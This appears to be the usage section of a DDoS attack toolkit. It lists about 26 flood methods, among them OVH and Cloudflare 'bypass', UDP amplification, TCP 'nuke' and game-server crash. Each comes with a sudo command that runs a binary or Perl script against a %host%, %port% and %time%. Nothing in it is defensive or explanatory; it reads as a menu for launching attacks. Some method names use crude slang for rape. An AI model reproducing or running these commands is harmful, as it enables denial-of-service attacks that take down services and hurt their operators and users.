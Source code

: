 How to use :

SSA : sudo ./ssa %host%

ETC : sudo ./etc %host% %port%

OVH : sudo ./ovh %host% %port% %time% 0 %time%

OVH-V2 : sudo ./ovhbypass2 %host% %port% %time% udp

STD : sudo ./STD-NOSPOOF %host% %port%

STCP : sudo ./STCP %host% %port% 10 -1 %time% ack

HEX : sudo ./HEX OVH %host% %port% %time%

NUKE-BYPASS : sudo ./HiperOVH %host% %port%

CLOUDFLARE : sudo ./cloudflare %host% 10 -1 %time%

ETHERA : sudo ./ETHERA %host% %port%

CPU-SURGE : sudo ./CPU-SURGE TCP %host% %port% %time%

VALID-SYN : sudo ./WRA %host% %port% 10 -1 %time%

R4P3 : sudo ./gre %host% 10 -1 %time%

NFO : sudo ./NFO %host% %port% 10 -1 %time%

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %host% %port% 5500 %time%

UDP-BYPASS : sudo perl UDP-BYPASS.pl %host% %time%

NULL : sudo perl UDP_NULL.pl %host% %time%

PATH : sudo perl UDP_BPSS.pl %host% %port% 5500 %time%

UDP-MIX : sudo perl UDP_MIX.pl %host% %time%

TCP_NUKE : sudo perl TCP_VOX.pl %host% %time%

OVH-RAPE : sudo perl OVHBYPASS.pl %host% %port% %time%

GAME : sudo ./GAME-CRASH %host% %port%

AMP : sudo perl amp.pl %host% %port% 5500 %time%

Twiks : sudo ./Twiks %host% %port%

35 : sudo perl 35.pl %host% %port% 1000 300

korkut : sudo ./korkut2 %host% %port% 10 -1 %time%
